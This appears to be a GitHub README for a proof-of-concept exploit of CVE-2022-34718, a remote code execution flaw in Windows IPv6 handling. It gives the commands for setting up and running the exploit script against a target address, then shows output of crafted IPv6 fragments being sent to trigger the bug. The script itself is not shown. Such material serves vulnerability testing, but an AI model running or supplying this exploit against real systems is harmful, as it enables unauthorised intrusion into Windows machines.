 # CVE-2022-34718 IPv6 Remote Code Execution exploit sample

This repository contains an exploit of CVE-2022-34718, a Remote Code Execution
(RCE) vulnerability in IPv6 on Windows systems.

## How to

Since the vulnerability requires specially crafted IPv6 packets, it depends on
the Scapy module and therefore needs to run as root. The recommended method to
run this PoC is through a virtual environment, like so:

```
# virtualenv PoC
# source PoC/bin/activate
(PoC) # pip3 install -r requirements.txt
(PoC) # python3 ipv6-rce-poc.py <target address>
```

The script will tell you if the target system is vulnerable to this exploit.

```
[...]
**** inner_frag_id: 0x24944eac
Preparing frags...
Sending 64 frags...
.
Sent 1 packets.
[...]
Sent 1 packets.
Now sending the last inner fragment to trigger the bug...
.
Sent 1 packets.
Success! The system is vulnerable...
